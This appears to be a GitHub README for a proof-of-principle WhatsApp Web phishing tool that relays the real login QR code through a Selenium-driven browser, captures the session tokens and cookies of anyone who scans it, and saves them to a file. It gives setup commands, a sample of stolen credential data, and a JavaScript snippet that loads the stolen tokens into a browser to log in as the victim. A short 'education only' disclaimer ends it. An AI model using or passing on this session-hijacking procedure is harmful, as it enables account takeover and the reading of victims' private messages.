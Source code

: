 # Whatsapp phishing

This repo contains proof of principle code for running a phishing attack against the official [Whatsapp Web client](https://web.whatsapp.com).

## Whatsapp what?

http://www.whatsapp.com/faq/web/28080003

Short: A web client for Whatsapp. You log in by scanning a QR code on there page using Whatsapp

## What does it do

It will extract the QR code from [Whatsapp Web](https://web.whatsapp.com) and display it on a new page.
If someone scans the code using Whatsapp it will grab the credentials from the web client and save them in a file.
You can use these credentials to log yourself in as the person who scanned to QR code.

## How does it work

The program uses node.js and socket.io for the website and selenium, a tool for scripting browsers, to communicate with the Whatsapp web client.

The program starts a http and a socket.io server. If a new client connects to socket.io the application will make a request to a selenium instance to start a new browser and connect to web.whatsapp.com. It will fetch the QR code data and send it to the client via the websocket connection. The client javascript then shows the QR code to the user.

If the QR code gets scanned Whatsapp will authenticate the selenium controlled browser and store some tokens in the localStorage and document.cookie. We extract that data and save it into a text file. It will look like so:

```json
{
   "s":{
      "remember-me":"true",
      "WAVersion":"\"0.1.4391\"",
      "qwefsdafadsdf==":"false",
      "debugCursor":"146",
      "WAWamDimensionCache":"{\"AppVersion\":\"0.1.4391\",\"BrowserVersion\":\"Firefox 39.0\",\"DeviceName\":\"Linux x86_64\",\"WebcEnv\":0}",
      "WAToken2":"\"0.asldkamäsdflkasdfasdf\"",
      "WAWamLastRotate":"1439140177924",
      "WALangPref":"\"de-DE\"",
      "WAWamStatus":"\"completed\"",
      "y8fY/zQ8P+asdfadfg==":"[
        ...
      ]",
      "WAToken1":"\"asdf+ams,dfhlaskdjfhasdfasdf=\"",
      "Dexie.DatabaseNames":"[\"wawc\"]",
      "storage_test":"storage_test",
      "LKAJsdlksdjfasdf==":"false",
      "logout-token":"\"alkjsdhfkjashldkjpweoaLKNKASBkasjbdaksdjLKjhhndosiaosa;AljkhJKhlKAJShkljqjDJSAOlkjbnhasdklWAdm==\"",
      "ver":"1",
      "whatsapp-mutex":"\"x781239870495:init0.987123490234\"",
      "WASecretBundle":"{\"key\":\"sldkfjsdf+asdlfijlasdkjfasdf=\",\"encKey\":\"asldkfjasldkfjsdfsdf0=\",\"macKey\":\"a,sdfasdf+alskdjföalskdhiopasdf=\"}",
      "WABrowserId":"\"aö,ksdjflöasdf==\""
   },
   "c":""
}
```

You can than import these tokens into your browser and log in as the person who scanned the QR code.

## Instructions

   * Download the [selenium standalone server](http://www.seleniumhq.org/download/) jar file and install Firefox if you don't already have it.
   * Type the following into your terminal
   
   ```console
   $ java -jar selenium-server.jar
   $ # new terminal
   $ git clone https://github.com/Mawalu/whatsapp-phishing.git
   $ cd whatsapp-phishing
   $ npm install
   $ node index.js
   ```
   * Open your browser and go to [http://localhost:8080](http://localhost:8080)
   * Start Whatsapp on your smartphone, go to Menu > Whatsapp Web and scan the QR code from your browser.
   * Copy the content from the newly created secrets file
   * Open web.whatsapp.com. (Watch out that you are not already logged in, maybe use incognito mode)
   * Open your developer console
   * Enter the following code:
   
   ```javascript
   > var t = CONTENT_OF_YOUR_SECRETS_FILE
   > function login(token) {Object.keys(token.s).forEach(function (key) {localStorage.setItem(key, token.s[key])}); token.c = token.c.split(';'); token.c.forEach(function(cookie) {document.cookie = cookie; });}
   > login(t)
   ```
   * Reload the page
   * You should be logged in as the person who scanned the QR code

## Disclaimer

Whatsapp messages are meant to be private. Just because the NSA reads everything it doesn't mean you should do as well! Everything in this repo is for education purpose only and I am not responsible if you use it otherwise.
